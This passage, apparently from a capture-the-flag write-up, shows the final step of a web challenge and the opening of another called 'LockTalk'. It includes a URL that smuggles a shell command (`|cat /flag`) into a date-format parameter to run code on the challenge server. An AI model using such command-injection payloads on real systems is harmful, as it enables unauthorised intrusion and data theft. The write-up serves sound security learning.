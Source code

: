 RCE is there. 🥳

The last step is to run `cat /flag` and that will print the flag.

```http
http://94.237.62.244:57142/?format=%Y-%m-%d%27|cat+/flag+%23
```

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2024/Pasted%20image%2020240313231310.png)

Get the flag. 🎉


# LockTalk

In "The Ransomware Dystopia," LockTalk emerges as a beacon of resistance against the rampant chaos inflicted by ransomware groups. In a world plunged into turmoil by malicious cyber threats, LockTalk stands as a formidable force...

- 🐳 _Instancer_
- 📦 [web_locktalk.zip](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/zip/web_locktalk.zip)

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2024/Pasted%20image%2020240314002446.png)
